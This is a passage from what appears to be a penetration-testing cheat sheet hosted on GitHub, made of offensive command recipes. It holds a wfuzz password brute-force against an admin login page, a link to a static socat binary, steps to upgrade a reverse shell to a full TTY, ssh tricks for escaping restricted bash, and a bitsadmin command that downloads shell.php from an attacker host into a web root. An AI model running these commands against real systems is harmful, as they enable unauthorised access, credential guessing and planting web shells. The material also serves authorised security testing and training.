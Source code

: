 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

Socat Binary: https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat

<b> Method 2 </b>

In reverse shell

<pre>
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
</pre>

In kali

<pre>
echo $TERM
stty -a
stty raw -echo
fg
</pre>

In reverse shell

<pre>
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
bash
</pre>


<a name="jailescape"></a><h3>rbash Jail Escape</h3>

<b>RequestTTY no</b>

<pre>ssh -o RequestTTY=no user@ip</pre>

![ttyno](https://user-images.githubusercontent.com/7115563/45673768-dec15480-bb2b-11e8-9d50-513c925b359b.png)

and the result would be:

![ttyfalse2](https://user-images.githubusercontent.com/7115563/45673773-e254db80-bb2b-11e8-911a-f0dec70936f4.png)

<b>Bash --noprofile</b>

<pre>ssh monitor@127.0.0.1 -t "bash --noprofile" </pre>

![bashnoprofile](https://user-images.githubusercontent.com/7115563/45673871-1defa580-bb2c-11e8-8004-c924ad0ddb56.png)


<a name="windowstransfer"></a><h3> Windows File Transfer </h3>

<b>bitsadmin</b>

`bitsadmin /transfer debjob /download /priority normal http://<ip>/shell.php c:\xampp\htdocs\shell.php`

<b>cscript wget.vbs (code on the repo)</b>

```